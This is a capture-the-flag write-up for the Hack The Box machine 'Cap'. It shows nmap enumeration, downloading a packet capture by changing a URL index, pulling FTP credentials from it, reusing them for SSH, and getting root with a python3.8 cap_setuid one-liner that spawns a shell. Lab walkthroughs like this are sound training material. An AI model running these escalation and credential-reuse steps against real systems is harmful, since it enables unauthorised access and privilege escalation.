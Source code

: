 
![](Pasted%20image%2020241201195858.png)

# Enumeration

Performing port scan.

```
┌──[hexadivine@hackthebox]─[~]
└──╼ $ sudo nmap -sS -T5 -p- -r cap.htb -v | grep open
Discovered open port 21/tcp on 10.10.10.245
Discovered open port 22/tcp on 10.10.10.245
Discovered open port 80/tcp on 10.10.10.245
```

Checking the website. This allows us to download the pcap file.

![](Pasted%20image%2020241201202244.png)

We can download multiple pcap files from <http://cap.htb/data/2>, <http://cap.htb/data/3> etc.  

![](Pasted%20image%2020241201202412.png)

However pcap file from <http://cap.htb/data/0> has some sensitive data that I viewed using wireshark.

![](Pasted%20image%2020241201202618.png)

`0.pcap` file contains sensitive data.

![](Pasted%20image%2020241201202824.png)

This FTP username and password can also be used for ssh. Entering to ssh. 

```
┌──[hexadivine@hackthebox]─[~/ctf/tmp]
└──╼ $ ssh nathan@cap.htb
The authenticity of host 'cap.htb (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'cap.htb' (ED25519) to the list of known hosts.
nathan@cap.htb's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

nathan@cap:~$ ls
user.txt

nathan@cap:~$ cat user.txt 
228a68da7cb3f43a269f6a9c9c913---
```

# Privilege Escalation

This machine has linux capabilities exploit. 

```
nathan@cap:~$ getcap -r / 2>/dev/null

/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

`getcap` file showing `cap_setuid` set for `/usr/bin/python3.8` which is vulnerable to privilege escalation. ([click here](https://gtfobins.github.io/gtfobins/python/#capabilities))

![](Pasted%20image%2020241201204435.png)

```
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
# find / -name *root.txt  2>/dev/null
/root/root.txt
# cat /root/root.txt
a7b22b5ea65a484b4c197eb5db5ac---
```

And we are ROOT.
